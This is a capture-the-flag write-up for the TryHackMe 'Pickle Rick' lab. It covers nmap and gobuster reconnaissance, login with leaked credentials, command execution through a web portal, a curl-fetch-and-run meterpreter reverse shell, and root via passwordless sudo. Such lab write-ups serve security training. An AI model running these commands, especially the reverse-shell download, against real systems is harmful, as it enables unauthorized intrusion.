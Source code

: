 ```yaml
---
layout: solution
category: TryHackMe
contest_code: Web_Hacking_Fundamentals
contest_name: Web Hacking Fundamentals
problem_code: PICKLE_RICK
problem_name: Pickle Rick
comments: false
tags: web
date: 2021-08-16
---
```


### First a nmap scan was conducted to determine the running services on the machine. Turns out it was running apache (web service) and SSH
```
nmap -sV -sC 10.10.11.43
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/nmap.png)

‎


### The website was visited however, it turns out that nothing interesting was shown on the page until viewing the source code (inspect element) where we saw an username

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/result1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/result2.png)

‎


### Gobuster was used to find hidden web pages within the website. Then we found out that, there were few intresting directories and pages. Some of them were visited (login.php & robots.php) where it reveal some text and also a login page
```
gobuster dir -t 30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.11.43 -x php,html,txt
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/gobuster.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/login.png)

‎


### I attempted to sign in by using the username provided in the page source and trying the text found in robots.txt as the password which allowed me to gain entry to portal.php. This page allowed me to execute limited command on the machine

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/code_injection1.png)

‎


### By executing the `ls` command, I am able to see the flag, however certain commands cannot be executed like `cat`, `more`, `less`, `ncat` thus a reverse meterpreter shell was obtained by creating one and hosting it on port 80. `curl` command was executed on the webpage to download the meterpreter reverse tcp file from my machine for execution
```
cd /tmp && curl -O 10.11.21.149/shell.elf && chmod 777 ./shell.elf && ./shell.elf
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/create_shell.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/code_injection2.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/obtain_shell.png)

‎


### The following flags were found in the following locations

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/flags1.png)

‎


### The last step was to perform privilege escalation to get access to flags in the the root directory. We first attempted to see the permission of www-data by executing `sudo -l`. turns out he can execute sudo command without password thus allowing us to escalate to root

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Pickle%20Rick/flags2.png)

